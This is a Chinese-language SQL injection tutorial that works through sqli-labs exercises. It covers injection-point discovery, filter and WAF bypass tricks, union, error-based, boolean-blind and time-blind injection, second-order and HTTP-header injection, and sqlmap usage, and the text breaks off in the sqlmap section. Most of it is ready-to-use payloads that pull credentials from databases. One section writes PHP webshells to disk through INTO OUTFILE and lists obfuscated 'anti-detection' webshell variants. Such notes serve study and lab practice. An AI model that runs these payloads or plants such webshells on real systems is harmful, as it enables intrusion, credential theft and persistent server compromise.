# SQL注入原理

## SQL注入概念及产生原因

> 当web应用向后台数据库传递SQL语句进行数据库操作时，如果对用户输入的参数没有经过严格的过滤处理，那么攻击者就可以构造特殊的SQL语句，直接输入数据库引擎执行，获取或修改数据库中的数据。


## SQL注入本质

> 把用户输入的数据当作代码来执行，违背了“数据与代码分离”的原则


## SQL注入的俩个关键点

> 1.用户能控制输入的内容；
>
> 2.web应用把用户输入的内容带入到数据库执行；


## SQL注入基础危害

> - 盗取网站的敏感信息;
> - 绕过网站后台认证 后台登录语句： `SELECT * FROM admin WHERE Username=‘user’ and Password=‘pass’` 万能密码：`‘or ’1‘ = ’1‘ # ;`
> - 借助SQL注入漏洞提权获取系统权限;
> - 读取文件信息。


## MYSQL数据库注入-常用函数

>  （1）`user()` 返回当前使用数据库的用户，也就是网站配置文件中连接数据库的账号 
> 
> （2）`version()` 返回当前数据库的版本 
>
>（3）`database()` 返回当前使用的数据库，只有在use命令选择一个数据库之后，才能查到 
>
>（4）`group_concat()` 把数据库中的某列数据或某几列数据合并为一个字符串 
>
>（5）`@@datadir` 数据库路径 
>
>（6）`@@version_compile_os` 操作系统版本


## 重要数据库`information_schema`

 information_schema下有几个重要的**表**

> 存储**数据库名**：**SCHEMATA**
>
> 存储数据库名及其下的所有**表名**：**TABLES**
>
> 存储数据库名及其下所有表并且表下的所有**字段名**：**COLUMNS**

其中：

> **SCHEMATA表**下的重要字段：**schema_name**(数据库名)
>
> **TABLES表**下的重要字段：**table_schema**(表所属的数据库名)，**table_name**(表名)
>
> **COLUMNS表**下的重要字段：**table_schema**(字段所属数据库的名字)，**table_name**(字段所属表的名字)，**column_name**（字段名）


## 普通SQL注入必备条件

>1.界面能够回显数据库查询到的数据（必要条件）；
>
>2.界面回显内容至少能够显示数据库中的某列数据（必要条件）；
>
>3.部分能够直接提供数据库报错内容的回显；


# SQL注入思路


## sql注入判断注入点

> 在GET参数、POST参数、Cookie、Referer、XFF、UA等地方尝试插入代码、符号或语句，尝试是否存在数据库参数读取行为，以及能否对其参数产生影响，如产生影响则说明存在注入点。


## sql注入点类型判断

> 1. get注入
>    在get传参时写入参数，将SQl语句闭合，后面加写入自己的SQL语句。
> 2. post注入
>    通过post传参，原理与get一样，重要的是判断我们所输入的信息是否与数据库产生交互，其次判断SQL语句是如何闭合的。
> 3. cookie注入
>    有些网站通过查询cookie判断用户是否登录，需要与数据库进行交互，我们可以修改cookie的值，查找我们所需要的东西。或者通过报错注入是网页返回报错信息。
> 5. Referer注入
>    Referer正确写法应该是Referrer,因为http规定时写错只能将错就错，有些网站会记录ip和访问路径，例如百度就是通过Referer来统计网站流量，我们将访问路径进行SQL注入，同样也可以得到想要的信息。
> 6. XFF注入
>    在用户登录注册模块在 HTTP 头信息添加 X-Forwarded-for: 9.9.9.9' ，用户在注册的时候，如果存在安全隐 患，会出现错误页面或者报错。从而导致注册或者登录用户失败。
>    burpsuite 抓包，提交输入检测语句：
>
> ```XFF注入
> X-Forwarded-for: 127.0.0.1'and 1=1#
> X-Forwarded-for: 127.0.0.1'and 1=2#
> ```
>
> ​       两次提交返回不一样，存在 SQL 注入漏洞
>
> 6. UA注入
>
>    输入点在User-Agent
>


## 判断参数数据类型

 ### 数值型

> 前台页面输入的参数是「数字」。
> 比如下面这个根据ID查询用户的功能。
>
> 后台对应的 SQL 如下，字段类型是数值型，这种就是数值型注入。
>
> `select * from user where id = 1;`
>
> 写入and 1=1 与and 1=2回显不相同说明后面的and 1=1和and 1=2对网页造成了影响，判断为数值型

 ### 字符型

> 前台页面输入的参数是「字符串」。
> 比如下面这个登录功能，输入的用户名和密码是字符串。
>
> 后台对应的SQL如下，字段类型是字符型，这种就是字符型注入。
>
> ```
> select * from user
> where username = 'zhangsan' and password = '123abc';
> ```
>
> 字符可以使用单引号包裹，也可以使用双引号包裹，根据包裹字符串的「引号」不同，字符型注入可以分为：「单引号字符型」注入和「双引号字符型」注入。
>
> 1. 单引号字符型注入
>
> 参数使用「单引号」包裹时，叫做单引号字符型注入，比如下面这个SQL，就是单引号字符型注入。
>
> ```
> select * from user where username = 'zhangsan';
> ```
>
> 
>
> 2. 双引号字符型注入
>
> 参数使用「双引号」包裹时，叫做双引号字符型注入，比如下面这个SQL，就是双引号字符型注入。
>
> ```
> select * from user where username = "zhangsan";
> ```
>
> 
>
> 3. 带有括号的注入
>
> 理论上来说，只有数值型和字符型两种注入类型。
> SQL的语法，支持使用一个或多个「括号」包裹参数，使得这两个基础的注入类型存在一些变种。
>
> 
>
> ​	a.数值型+括号的注入
> 使用括号包裹数值型参数，比如下面这种SQL。
>
> ```text
> select \* from user where id = (1);
> select \* from user where id = ((1));
> 包裹多个括号……
> ```
>
> 
>
> ​	b. 单引号字符串+括号的注入
> 使用括号和单引号包裹参数，比如下面这种SQL。
>
> ```text
> select \* from user where username = ('zhangsan');
> select \* from user where username = (('zhangsan'));
> 包裹多个括号……
> ```
>
> 
>
> ​	c. 双引号字符串+括号的注入
> 使用括号和双引号包裹参数，比如下面这种SQL
>
> ```text
> select \* from user where username = ("zhangsan");
> select \* from user where username = (("zhangsan"));
> 包裹多个括号……
> ```


## 判断数据库语句过滤情况

> 正常输入sql语句如果通过查看回显来判断语句是否被过滤

 **判断列数**
> 如果order by被过滤则尝试绕过，如果无法绕过就无法得到列数，这时就无法用联合查询注入

 **判断显示位**
> 如果页面没有显示位，同样无法使用联合查询注入

 **报错信息**
> 如果没有报错信息返回，则无法使用报错注入


## 绕过过滤

**注释绕过**：`-- -`，`--+`，`#`，`--` （-- ，杠杠空格）

**注释符被过滤后的绕过**：若注释符被过滤，则需要知道数据库的运行规则

```
正常语句（*不存在，仅标志我们的注入点在这）
select 1 FROM users where '1*'

注入语句'and(1=1)or'
select 1 FROM users where '1'and(1=1)or''
里面的1=1可以为任何sql注入语句

再比如，正常语句（*不存在，仅标志我们的注入点在这）
select 1 FROM users where ('1*')

注入语句')and(1=1)or('
select 1 FROM users where ('1')and(1=1)or('')
里面的1=1同样可以为任何sql注入语句

又比如，正常语句（*不存在，仅标志我们的注入点在这）
SELECT * FROM users WHERE id='$id*' LIMIT 0,1

如果要用select查询，则注入语句'union select 1,2,3'
SELECT * FROM users WHERE id='$id' union select 1,2,3'' LIMIT 0,1

则不用前后加and或者or，为什么会这样呢？
因为select后的查询语句可以接''来表示命名，命名可以为空，也可以为任何名字，所以可以注入 'union select 1,2,3'123niubi666，都是可以的
```

**过滤空格绕过**：`/**/` ，`%20` ，`%0a` ，`%09` ，`%0c` ,`%a0`,`%0d`,`括号`，`+`

**过滤大小写绕过**：比如`select`被过滤了，可以用`SElect`，`Select`

**内联注释绕过**：内联注释就是把一些特有的仅在MYSQL上的语句放在 `/*!...*/` 中，这样这些语句如果在其它数据库中是不会被执行，但在MYSQL中会执行

**双写绕过**：比如`select`变成`seleselectct`，在经过`waf`的处理之后又变成`select`，达到绕过的要求，更可以三写，或者多写

**过滤 `and` `or` `xor` `not`绕过**：`and` = `&&` , `or` = `||` , `xor` = `|` , `not` = `!`

**过滤=（等于号）绕过**：

- 不加`通配符`的`like`执行的效果和`=`一致，所以可以用来绕过。

> 正常加上通配符的`like`：

```sql
mysql> select * from users where username like "test%";
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | test1    | pass     |
|  3 | test3    | pass1    |
+----+----------+----------+
```

> 不加上通配符的`like`可以用来取代`=`：

```sql
mysql> select * from users where id like 1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | admin    |
+----+----------+----------+
```

- rlike:模糊匹配，只要字段的值中存在要查找的 部分 就会被选择出来
  用来取代`=`时，`rlike`的用法和上面的`like`一样，没有通配符效果和`=`一样

- regexp:MySQL中使用 **REGEXP** 操作符来进行正则表达式匹配

- <> 等价于 !=
  所以在前面再加一个`!`结果就是等号了

```sql
mysql> select * from users where id = 1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | admin    |
+----+----------+----------+


mysql> select * from users where !(id <> 1);
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | admin    |
+----+----------+----------+
```

**过滤引号绕过**：

- 使用十六进制

```sql
select column_name  from information_schema.tables where table_name=0x7573657273;
```

- 宽字节

> 常用在web应用使用的字符集为`GBK`时，并且过滤了引号，就可以试试宽字节。

```
# 过滤单引号时
%bf%27 %df%27 %aa%27

%df\’ = %df%5c%27=縗’
```

**过滤逗号绕过**：如果waf过滤了逗号，并且只能盲注，在取子串的几个函数中，有一个替代逗号的方法就是使用`from pos for len`，其中pos代表从pos个开始读取len长度的子串
例如在`substr()`等函数中，常规的写法是

```sql
mysql> select substr("string",1,3);
+----------------------+
| substr("string",1,3) |
+----------------------+
| str                  |
+----------------------+
```

- 如果过滤了逗号，可以这样使用`from pos for len`来取代

```sql
mysql> select substr("string" from 1 for 3);
+-------------------------------+
| substr("string" from 1 for 3) |
+-------------------------------+
| str                           |
+-------------------------------+
1 row in set (0.00 sec)
```

- 也可使用`join`关键字来绕过

```sql
union select * from (select 1)a join (select 2)b join(select 3)c
```

> 等价于

```sql
union select 1,2,3
```

- 使用offset关键字
  适用于`limit`中的逗号被过滤的情况
  `limit 2,1`等价于`limit 1 offset 2`

```sql
mysql> select * from users limit 2,1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  3 | admin    | admin    |
+----+----------+----------+

mysql> select * from users limit 1 offset 2;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  3 | admin    | admin    |
+----+----------+----------+
```


# *SQL注入分类及各个的相关命令


## SQL注入写入一句话木马（及免杀）

```
SHOW VARIABLES LIKE "secure_file_priv"  //查看系统变量secure_file_priv：
Select @@basedir;   //查询数据库路径

<?php phpinfo();?>  //phpinfo界面
select load_file("C:\\text.txt")                       //上传指定文件

select '<?php @eval($_POST["123"]);?>'                //php代码需要注意大小写
INTO OUTFILE "D:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\hm.php";

免杀
一句话木马：'<?php $a = "a"."s"."s"."e"."r"."t";@$a(eval($_POST["123"]));?>'
<?php $string = "assexx";$a = str_replace("xx", "rt", $string);@$a(eval($_POST["123"]));?>
<?php $b = "YXNzZXJ0";$a = base64_decode($b);@$a(eval($_POST["123"]));?>

<?php fputs(fopen('cjc.php','w'),'<?php $b = "YXNzZXJ0";$a = base64_decode($b);@$a(eval($_POST["pass"]));?>');?>	//写马的马(条件竞争)

<?php $a="system";@$a($_REQUEST["pass"]);?>            //小马

<?=`$_GET[1]`;;?>									   //极简马

<%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>  //JS马
```


## GET注入和POST注入

### GET

> GET注入是指攻击者利用应用程序中使用GET方法传递参数的漏洞来注入恶意的SQL代码。在Web应用程序中，GET请求通过URL传递参数，这些参数通常用于构建动态的查询语句。攻击者可以通过篡改URL参数中的数据，注入恶意的SQL查询，从而干扰数据库操作。

> 示例： 假设有一个URL如下：

```
http://example.com/products?id=1
```

> 攻击者可以通过修改URL参数来尝试注入，比如：

```
http://example.com/products?id=1' OR '1'='1
```

> 这会导致查询变为类似于：

```
SELECT * FROM products WHERE id='1' OR '1'='1';
```

> 这将返回所有产品，因为'1'='1'条件始终为真。


### POST

>POST注入类似于GET注入，但是攻击者利用应用程序中使用POST方法传递参数的漏洞。在Web应用程序中，POST请求通常用于提交表单数据，这些数据也可以用于构建动态的SQL查询语句。
>
>示例（hackbar）：
>
>首先先在框内随意输入，再提交
>
>
>
>提交之后，再点击**LOAD**
>
>
>
>会把提交的键值对自动填入**Body**里面
>
>然后这里有个不知道是不是hackbar的bug，我们需要改 **s**ubmit=Submit 中的加粗的**小写s**改为**大写S**，才可以使用
>
>然后就可以到**uname**，**passwd**注入sql语句


## SQL（联合）注入基本流程

`?id=1 and 1=1`  `?id=1' and 1=1`  `?id=1') and 1=1`  `?id=1" and 1=1`  `?id=1") and 1=1` 

> 1.判断有无闭合 and 1=1 && and 1=2 //结果和第一个一样说明需要闭合，反之无闭合 有闭合则需要用到 -- - ( --+ , -- s，--# )闭合
>
> 2.猜解字段 order by 10 //采用二分法 
>
> 3.判断数据回显位置 id=-1 union select 1，2，3，4，5.... //参数等号后面加-表示不显示当前数据
>
> 4.获取当前数据库名、用户、版本 union select version(),database(),user()...... 
>
> 5.获取全部数据库名

```sql
union select 1,2,(select group_concat(schema_name)from information_schema.schemata)

union select 1,2,database()     ---显示当前数据库
```

> 6.获取表名

```sql
union select 1,2,(select group_concat(table_name)from information_schema.tables where table_schema='库名')
```

> 7.获取字段名

```sql
union select 1,2,(select group_concat(column_name)from information_schema.columns where table_name='表名' and table_schema='库名')
```

> 8.获取数据 union select 1,2,(select group_concat(字段1，字段2)from 库名.表名

```sql
查 库：select schema_name from information_schema.schema

查 表：select table_name from information_schema.tables where table_schema='库名'

查 列：select column_name from information_schema.columns where table_name='表名'

查数据： select 列名 from 库名.表名
```


## SQL报错注入

`updatexml`,`extractvalue`,`exp`,`floor`


> 1.判断闭合符号 `‘`，`“`， ，`’)`，`”)`，和`and 1=1` && `and 1=2`,发现不会回显，但是通过页面显示会不正常，可判断正确的闭合符号
>
> 2.在通过`and select database()`,会发现还是有报错语句出现，说明可用报错注入
>
> 3.获得当前数据库名

```
updatexml(1,concat(0x7e,(select database()),0x7e),1)-- s
```

> 4.获得当前数据库所有表名

```
updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,31),0x7e),1)-- s
```

> 5.获取当前数据库user表所有列名称

```
updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),1,31),0x7e),1)-- s
```

> 6.获取当前数据库user表所有username和password的值

```
updatexml(1,concat(0x7e,substr((select group_concat(concat(username,'^',password)) from users),1,31),0x7e),1)-- s
updatexml(1,concat(0x7e,substr((select group_concat(concat(username,'^',password)) from users),32,31),0x7e),1)-- s
```

>注意：为什么是31？
>
>
>
>
>
>对比可知，需自己尝试,直到弄出所有数据


## SQL布尔盲注

> 1.判断闭合符号 `‘`，`“`， ，`’)`，`”)`，和`and 1=1` && `and 1=2`,发现不会回显，但是通过页面显示会不正常，可判断正确的闭合符号
>
> ```
> http://192.168.101.16/sqli-labs-master/Less-40/?id=1 有查询结果
> http://192.168.101.16/sqli-labs-master/Less-40/?id=1" 有查询结果
> http://192.168.101.16/sqli-labs-master/Less-40/?id=1' 无查询结果 
> http://192.168.101.16/sqli-labs-master/Less-40/?id=1'-- s 无查询结果
> http://192.168.101.16/sqli-labs-master/Less-40/?id=1')-- s 有查询结果
> ```
>
> 2.尝试布尔注入，`?id=1’ and (length(database()))>0-- -`,
>
> `?id=1’ and (length(database()))<0-- -`
>
> 看页面回显有问题，判断可用布尔盲注
>
> 3.判断数据库名第一位

```
http://localhost:8081/sql/Less-8/?id=1' and (select ascii(substr(database(),1,1)))>115
```

> ’115‘需要用二分法对比
>
> 
>
> 
>
> 4.然后可用burpsuite抓包，用里面的集束炸弹的攻击方式，来验证数据库名之后的位数是什么
>
> 
>
> 
>
> 
>
>  然后开始攻击
>
> 攻击完成后，先后点击一号位，二号位，可排序
>
> 
>
> 在记录在记事本上，一个一个通过ascii表，得到数据
>
> 
>
> 5.接着在猜测表名和列名
>

```
?id=1’ and (select ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))=101-- -

?id=1’ and (select ascii(substr((select columns_name from information_schema.columns where table_name=’users’ limit 0,1),1,1)))=117–- 
```

> 注：猜测一个表的表名与上面猜测数据库名一致，然后如果要换下一个表名或则列名猜测，可在 `limit 0,1` 换成 `limit 1,1` ，`limit 2,1`，`limit 3,1`......
>
> 6.接着猜测用户名与密码则可改写里面的select语句，如

```
?id=1’ and (select ascii(substr((select username from users limit 0,1),1,1)))=68-- -
?id=1’ and (select ascii(substr((select password from users limit 0,1),1,1)))=68-- -
```


## SQL时间盲注


sleep,benchmark,GET_LOCK(str,timeout)

> 1.判断闭合符号 `‘`，`“`， ，`’)`，`”)`，和`and sleep(2)` ,发现正确的闭合符号会执行后面的sleep语句，可判断哪个闭合符号正确
>
> 2.判断库名长度
>
> 如果length大于8，则页面会等待俩秒，如果没有大于8，则返回0，表现是页面马上刷新成功，具体可以通过**页面右键**的**检查**内的**网络**判断

```
?id=1' and if(length(database())>8,sleep(2),1) -- -
```

> 3.判断库名
>
> 可通过burpsuite内的攻击模块的集束炸弹，改变 ascii(substr(database(),**1**,1))=**115 **加粗的俩个数值的变量，分析出具体名字，详细情况跟上一节的**布尔盲注**类似

```
?id=1' and if(ascii(substr(database(),1,1))=115,sleep(2),1) -- -
```

> 4.判断表名
>
> 若要分析下一个表名，可改 limit **0**,1 中的加粗数值，改为1，2，3，4......

```
?id=1’ and if(ascii(substr((select table_name from information_schema.tables where table_schema=‘security’ limit 0,1),z,d))=e,sleep(1),1)-- -
```

> 5.判断列名
>
> 若要分析下一个列名，可改 limit **0**,1 中的加粗数值，改为1，2，3，4......

```
?id=1’ and If(ascii(substr((select column_name from information_schema.columns where table_name=‘users’ and table_schema=database() limit 0,1),z,d))=105,sleep(2),1)-- -
```

> 6.爆数据
>
> 若要分析下一个数据，可改 limit **0**,1 中的加粗数值，改为1，2，3，4......

```
?id=1' and If(ascii(substr((select username from users limit 0,1),1,1))=68,sleep(2),1)-- -

?id=1' and If(ascii(substr((select password from users limit 0,1),1,1))=68,sleep(2),1)-- -
```


## SQL二次注入

> 1.一般为有登录界面，注册界面，修改密码界面
>
> 登录界面
>
> 
>
> 注册界面
>
> 
>
> 修改密码界面（需要注册一个用户，在登录进去）
>
> 
>
> 2.首先在注册界面注册一个用户为 `admin'#` , `admin` 可换为数据库中任意一个已经存在的用户名，密码填 `123`，密码也可随意填，但需要自己记得，后面登录和修改密码需要用的到
>
> 
>
> 3.注册好之后，用刚刚的用户名为`admin'#`，密码为`123`，的账户登录
>
> 
>
> 4.进入登录页面后，修改密码后，会发现`admin`的账户可以用修改后的密码进行登录了
>
> 原本
>
> 
>
> 修改后
>
> 


## HTTP头注入


### User—Agent头注入（ 以sqli less18为例）

> 1.首先正确登录进，抓包，判断闭合方式，先在UA头后打了一个`‘`，会发现有报错信息
>
> 
>
> 发现有3个字段，第一个是UA字段，第二个为IP字段，第三个为用户名字段
>
> 2.然后开始构造语句
>
> 正常的语句（*不存在，仅标志我们的注入点在这）
>
> ```
> INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent*', '$IP', $uname)
> ```
>
> 注入语句   ','1',sleep(2))-- -（|xxxxxxx|中的||是为了让读者更好区分，实际不用打）
>
> ```
> INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent|','1',sleep(2))-- -|', '$IP', $uname)
> ```
>
> 为什么要这样注入呢？我们可以看放回的报错信息
>
> 
>
> 可以根据这个猜测我们的注入点的周围为`('$uagent*', '$IP', $uname)`
>
> 所以我们需要模仿后面的格式注入，在把原本后面有的全部注释掉，程序就可以以我们的sql注入语句进行
>
> 3.接下来就可以把sleep(2)换成其它查询语句，查询想要的数据


### Referer注入（以sqli less19为例）

> 1.首先正确登录进，抓包，判断闭合方式，先在referer后写一个`’`，发现出现报错
>
> 
>
> 可发现只有俩个字段，第一个为Referer的字段，第二个为IP的字段
>
> 2.开始构造语句
>
> 正常语句（*不存在，仅标志我们的注入点在这）
>
> ```
> INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('$uagent*', '$IP')
> ```
>
> 注入语句   ',sleep(5))-- -
>
> ```
> INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('$uagent|',sleep(5))-- -|', '$IP')
> ```
>
> 3.接下来把`sleep(5)`换成报错语句进行查询即可


### Cookie注入（以sqli less20为例）

> 1.首先正确登录进界面，抓包，判断闭合符为`'`,发现出现报错
>
> 
>
> 发现只回显一个用户名的字段
>
> 2.order by判断字段数为3个，且通过union查询出回显位置
>
> 
>
> 
>
> 3.爆数据库
>
> 
>
> 4.接下来爆表名，爆列名，爆数据都是联合查询注入的语句


## 增删改查不同语句注入

### 增（insert into）

> **基础例句**：`INSERT INTO  users VALUES(16,'admin5','admin5'),(17,'admin5','admin5');`
>
> 判断插入点为插入语句值的第几位字段，再判断闭合符号，再构造语句

### 改（update）

> **基础例句**： `UPDATE users SET username= 123, password= 321 WHERE id=10;`
>
> 先判断更新为第几位字段，再判断字段名称，再判断闭合符号，最后构造语句


# 使用工具进行注入


## sqlmap

### 安装sqlmap
```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```


### 基础探测命令

`python`

**联合查询注入：**

```text
.\sqlmap.py -u "http://localhost:8081/sql/Less-1/?id=1" --dbms=MySQL --technique=U -v 3
```

**报错注入：**

```text
.\sqlmap.py -u "http://localhost:8081/sql/Less-1/?id=1" --dbms=MySQL --technique=E -v 3
```

**布尔盲注：**

```text
